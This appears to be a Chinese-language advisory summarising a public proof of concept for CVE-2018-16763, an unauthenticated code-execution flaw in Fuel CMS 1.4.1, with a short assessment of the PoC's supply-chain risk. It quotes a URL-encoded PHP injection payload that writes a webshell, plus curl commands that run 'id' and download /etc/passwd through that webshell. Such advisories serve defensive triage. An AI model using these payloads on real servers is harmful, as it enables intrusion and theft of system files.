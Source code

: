## CVE-2018-16763 - Fuel CMS 1.4.1 远程代码执行

**漏洞编号:** CVE-2018-16763

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Fuel CMS

**危害等级:** 高危，允许未经身份验证的远程代码执行

**影响版本:** <= 1.4.1

**利用条件:** 目标系统运行 Fuel CMS 1.4.1 并且存在网络可达性。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2018-16763 漏洞存在于 Fuel CMS 1.4.1 中，允许攻击者通过 `pages/select/` 的 `filter` 参数或 `preview/` 的 `data` 参数执行任意 PHP 代码，从而实现未经身份验证的远程代码执行。

**漏洞利用方式：**

1.  **上传 Webshell：**
    *   利用 `filter` 参数的 PHP 代码注入漏洞，上传一个 PHP Webshell 到服务器上。
    *   POC 代码中使用 `file_put_contents` 函数将 Webshell 内容写入到服务器的文件系统中。
    *   攻击者通过构造包含特定 PHP 代码的 URL，例如：`http://127.0.0.1:10080/fuel/pages/select/?filter=%27%2Bpi%28print%28%24a%3D%27file%5Fput%5Fcontents%27%29%29%2B%24a%28%24%5FPOST%5B%22d0eb3f9a%22%5D%2C%24%5FPOST%5B%229bc30f43%22%5D%29%2B%27`，并配合 POST 请求，将 Webshell 内容写入指定的文件。

2.  **执行命令/下载文件：**
    *   上传 Webshell 之后，攻击者可以通过访问 Webshell，并传递 `action=exec` 和 `cmd` 参数来执行系统命令。
    *   也可以通过传递 `action=download` 和 `path` 参数来下载服务器上的文件。
    *   例如，执行 `id` 命令：`curl -X POST 'http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php' --data "action=exec&cmd=id"`
    *   下载 `/etc/passwd` 文件：`curl -X POST 'http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php' --data "action=download&path=/etc/passwd" -o-`

**投毒风险分析：**

*   该 POC 主要是利用已知的 RCE 漏洞，通过上传 Webshell 来执行命令或下载文件。`console.py`脚本用于自动化利用过程，并非恶意代码。但仍存在很小的投毒风险（5%），比如：
    *   **依赖风险：** `console.py` 脚本依赖 `requests` 库。如果作者有意投毒，可以修改脚本，使其依赖一个包含恶意代码的恶意 `requests` 库的变种（例如，通过 PyPI 上的名称混淆），诱导用户安装。
    *   **后门维护：** 虽然主要功能是利用漏洞，但上传的 Webshell 本身可能包含一些不易察觉的后门，允许作者在之后维持访问权限。
    *   **版本依赖陷阱：** 脚本可能包含版本检查，如果用户环境不满足特定版本要求，可能触发一些恶意行为。

**总结：**

该漏洞利用代码有效，允许未经授权的远程代码执行。 虽然直接的恶意代码的可能性较低，但仍然需要仔细审查和使用，以防范潜在的依赖项和后门风险。尤其需要注意 Webshell 的内容。

**项目地址:** [p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE)

**漏洞详情:** [CVE-2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)
